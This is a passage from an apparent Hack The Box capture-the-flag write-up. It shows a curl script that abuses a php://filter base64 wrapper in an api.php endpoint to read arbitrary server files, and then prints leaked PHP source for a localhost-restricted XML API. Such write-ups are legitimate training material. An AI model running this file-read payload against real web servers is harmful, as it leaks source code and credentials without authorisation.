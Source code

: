 ```shell

# read
curl -b $COOKIE \
     -s \
     -d "url=php://filter/convert.base64-encode/resource=$FILE" \
     http://$HOST/api.php \
| base64 -d

# clean up
rm -f $COOKIE
```

Litmus test?

{% include image.html image_alt="44d2ddc4.png" image_src="/2b825485-6959-4b81-bef1-3f1f279b1b67/44d2ddc4.png" %}

Bingo.

## Low-Privilege Shell

Recall the `/dev` directory where we have no access? Let's see if we can read it now.

<div class="filename"><span>index.php</span></div>

~~~php
<?php
//include_once ../session.php;
// Initialize the session
session_start();

if((!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true || $_SESSION['username'] !== "admin") && $_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
    header('HTTP/1.0 403 Forbidden');
    echo "<h1>403 Access Denied</h1>";
    echo "<h3>Access Denied From ", $_SERVER['REMOTE_ADDR'], "</h3>";
    //echo "<h2>Redirecting to login in 3 seconds</h2>"
    //echo '<meta http-equiv="refresh" content="3;url=../login.php" />';
    //header("location: ../login.php");
    exit;
}
?>
<html>
        <h1>XML Api Test</h1>
        <h3>This is our api test for when our new website gets refurbished</h3>
        <form action="/dev/index.php" method="get" id="xmltest">
                <textarea name="xml" form="xmltest" rows="20" cols="50"><api>
    <request>test</request>
</api>
</textarea>
                <input type="submit">
        </form>

</html>

<!-- TODO:
Fix FTP Login
-->

<?php
if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['xml'])) {

        $reg = '/ftp:\/\/[\s\S]*\/\"/';
        //$reg = '/((((25[0-5])|(2[0-4]\d)|([01]?\d?\d)))\.){3}((((25[0-5])|(2[0-4]\d)|([01]?\d?\d))))/'
~~~

[1]: https://www.hackthebox.eu/home/machines/profile/239
[2]: https://www.hackthebox.eu/home/users/profile/44614
[3]: https://www.hackthebox.eu/home/users/profile/52045
[4]: https://www.hackthebox.eu/
